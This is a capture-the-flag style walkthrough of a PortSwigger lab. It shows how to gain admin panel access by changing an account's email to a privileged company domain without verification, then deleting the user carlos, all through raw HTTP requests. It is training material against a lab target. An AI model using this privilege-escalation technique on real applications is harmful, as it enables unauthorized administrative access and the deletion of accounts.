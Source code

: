 # [Lab 5: Inconsistent security controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-security-controls)

---

## Description

This lab's flawed logic allows arbitrary users to access administrative functionality that should only be available to company employees. To solve the lab, access the admin panel and delete Carlos.

---

## Solution

### Application map
- Blog at `/`
- Login form at `/login`
- Account registration form at `/register`
- Admin panel at `/admin`

Administrative privileges are given to users with a `@dontwannacry.com` email address associated with their account.

### How does the application restrict access to `/admin`?

`GET` request for `/admin`:

```http
GET /admin HTTP/1.1
Host: ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Cookie: session=cSbepDgvduPqivzUi0muAfDxuD7i7xNq
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

The application probably looks up the user associated with the `session` cookie to determine if their email is of the `@dontwannacry.com` domain.

If that's the case, then it seems like there are two options:
1. Register and confirm an account with an email address of the `@dontwannacry.com` domain
2. Somehow inject into the `session` cookie to get around the email address requirement
	- Since this challenge is more about business logic flaws than injection, I imagine that exploring #1 is the best course of action

### Account registration

Account registration `POST` request:

```http
POST /register HTTP/1.1
Host: ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Cookie: session=cSbepDgvduPqivzUi0muAfDxuD7i7xNq
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Origin: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Dnt: 1
Referer: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net/register
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=uIGMzOWv6y4Wod7ptMUXpZIZp4xHlPNC&username=tgihf&email=tgihf%40exploit-ac8e1f081ec2eeea80f91d0d01a9009a.web-security-academy.net&password=blah
```

The application sends an email to `email` with a link. Clicking on the link generates this `GET` request:

```http
GET /register?temp-registration-token=0SOod5W404peUBGt9rJRxTRljqL9bv0e HTTP/1.1
Host: ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Cookie: session=cSbepDgvduPqivzUi0muAfDxuD7i7xNq
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://exploit-ac8e1f081ec2eeea80f91d0d01a9009a.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

The registration token appears to be random. The `session` cookie does not automatically authorize the user. The user must still go and log in.

Login request:

```http
POST /login HTTP/1.1
Host: ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Cookie: session=cSbepDgvduPqivzUi0muAfDxuD7i7xNq
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Dnt: 1
Referer: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=uIGMzOWv6y4Wod7ptMUXpZIZp4xHlPNC&username=tgihf&password=blah
```

 The application gives an authenticated user the option to change their email address. Does this functionality generate another email confirmation, or simply accept the user input email address as good?
 
 Request to change email address:
 
 ```http
POST /my-account/change-email HTTP/1.1
Host: ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Cookie: session=UflXQsnscc17n5NfPLlyw67rIxwgHBQV
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Dnt: 1
Referer: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net/my-account?id=tgihf
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

email=tgihf%40dontwannacry.com&csrf=GfCzzsxTKBzu8c1m8QcPwtimoA4oPVOb
 ```
 
 Results in a redirect to `/my-account` which indicates the email address was changed successfully.
 
 ![](images/Pasted%20image%2020210827191329.png)
 
 Access the admin panel and delete `carlos`'s account to complete the challenge.
 
 ```http
 GET /admin/delete?username=carlos HTTP/1.1
Host: ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net
Cookie: session=UflXQsnscc17n5NfPLlyw67rIxwgHBQV
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://ac7d1f0d1ec8ee3e80611d5f000b00f9.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
 ```
 
 ![](images/Pasted%20image%2020210827191736.png)
 